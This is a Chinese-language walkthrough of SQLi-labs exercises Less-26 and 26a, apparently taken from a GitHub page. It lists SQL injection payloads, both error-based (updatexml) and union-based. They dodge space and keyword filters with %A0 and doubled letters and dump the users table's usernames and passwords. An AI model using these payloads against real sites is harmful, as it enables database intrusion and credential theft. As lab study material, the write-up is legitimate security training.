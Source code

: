 爆字段

```
?id=0'||updatexml(1,concat(0x7e,(select (group_concat(column_name)) from (infoorrmation_schema.columns) where (table_name = 0x7573657273) )),1)||'1'='1

?id=0'||updatexml(1,concat('~',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1	//%26%26=&&
```

爆值

过滤了password，双写绕过。报错有字符限制也不能使用`group_concat()`

```
?id=0'||updatexml(1,concat('~',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)where(username)='admin')),0)||'1'='1
```



### less-26a

#### 考点：过滤空格/注释，联合注入

因为**屏蔽了报错回显**，因此不应该使用报错注入，使用联合注入，这里用`('3`结束

- **空格：%A0、括号**
- **将information_schema替换为infoorrmation_schema**
- **将and替换为aandnd**
- **将password替换为passwoorrd**

#### 思路

爆库

```
?id=0')union%A0select%A01,database(),('3
```

爆表

```
?id=0')union%A0select%A01,(select%A0group_concat(schema_name)%A0from%A0infoorrmation_schema.schemata),('3
```

爆字段

```
?id=0')union%A0select%A01,(select%A0group_concat(table_name)%A0from%A0infoorrmation_schema.tables%A0where%A0table_schema='security'%A0),('3
```

爆值

```
?id=0')union%A0select%A01,(select%A0group_concat(username,':',passwoorrd)%A0from%A0security.users),('3
```
